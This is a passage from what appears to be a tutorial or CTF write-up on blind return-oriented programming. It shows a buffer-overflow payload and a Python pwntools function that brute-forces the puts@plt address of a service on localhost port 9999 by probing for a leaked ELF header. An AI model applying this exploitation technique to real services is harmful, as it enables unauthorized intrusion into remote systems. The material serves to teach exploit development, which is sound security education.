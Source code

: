 

In this way, we basically got the bopp gadgets address 0x4007ba


#### Determine the puts@plt address


According to the above, we can construct the following payload to get the acquisition.


```text

payload = 'A'*72 +p64(pop_rdi_ret)+p64(0x400000)+p64(addr)+p64(stop_gadget)

```



The specific function is as follows


```python

def get_puts_addr(length, rdi_ret, stop_gadget):

    addr = 0x400000

    while 1:

        print hex(addr)

        sh = remote('127.0.0.1', 9999)

        sh.recvuntil('password?\n')

        payload = 'A' * length + p64(rdi_ret) + p64(0x400000) + p64(

            addr) + p64(stop_gadget)

        sh.sendline(payload)

        try:

            content = sh.recv()

            if content.startswith('\x7fELF'):

                print 'find puts@plt addr: 0x%x' % addr

                return addr
            sh.close()

            addr += 1

        except Exception:

            sh.close()

            addr += 1

```
